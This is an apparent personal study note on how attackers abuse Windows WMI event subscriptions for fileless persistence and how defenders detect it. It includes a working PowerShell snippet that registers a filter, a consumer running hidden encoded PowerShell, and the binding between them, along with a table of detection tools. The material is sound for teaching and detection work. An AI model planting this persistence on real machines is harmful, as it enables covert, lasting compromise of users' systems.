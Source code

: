 
> [!NOTE] Objective
> - Learn how WMI (Windows Management Instrumentation) works, how adversaries use it to maintain filess, trigger based persistence, and how to detect this behavior using logs, PowerShell, and WMI Explorer tools


> [!NOTE] Explain Like I Am 12
> - WMI is like a magic spellbook inside Windows. You can use it to ask, "What processes are running? What users exist? When should I run this payload?"
> - Walware uses WMI to: 
> 	- Stay persistent without files or registry entries
> 	- Run code silently when a user logs in or on system idle
> 	- Evade AVs that scan files or startup folders
> - It is like having a malware bot hide inside Window
## Deep Dive: WMI Components Used in Abuse

| WMI Components                | Purpose                        |
| ----------------------------- | ------------------------------ |
| Namespace (root\subscription) | Stores persistence triggers    |
| Filter                        | Condition(ex. user logs in)    |
| Consumer                      | What to do(ex. run Powershell) |
| FilterToConserBinding         | Links Filter + Consumer        |
- Attack Workflow
	- Create a WMI Event Filter (ex. trigger when user logs in)
	- Create a WMI Consumer (ex. run Powershell)
	- Bind the filter and consumer
	- WMI silently waits and executes when condition is met
#### Common WMI Payload
```
$Filter = Set-WmiInstance -Namespace root\subscription -Class __EventFilter -Arguments @{
    Name = 'MaliciousFilter'
    EventNamespace = 'root\cimv2'
    QueryLanguage = 'WQL'
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
}
$Consumer = Set-WmiInstance -Namespace root\subscription -Class CommandLineEventConsumer -Arguments @{
    Name = 'MaliciousConsumer'
    CommandLineTemplate = 'powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -NoProfile -enc BASE64PAYLOAD'
}
Set-WmiInstance -Namespace root\subscription -Class __FilterToConsumerBinding -Arguments @{
    Filter = $Filter
    Consumer = $Consumer
}
```
## Tools to Detect WMI Abuse

| Tool                            | Function                                         |
| ------------------------------- | ------------------------------------------------ |
| wbemtest                        | Native WMI GUI                                   |
| Get-WmiObject / Get-CimInstance | View WMI objects                                 |
| WMI Explorer                    | GUI to explore/filter/inspect bindings           |
| Sysmon Event ID 19, 20, 21      | Detect creation of filter, consumer, and binding |
| Event Viewer: WMI-Activity      | Log execution from WMI-based processes           |

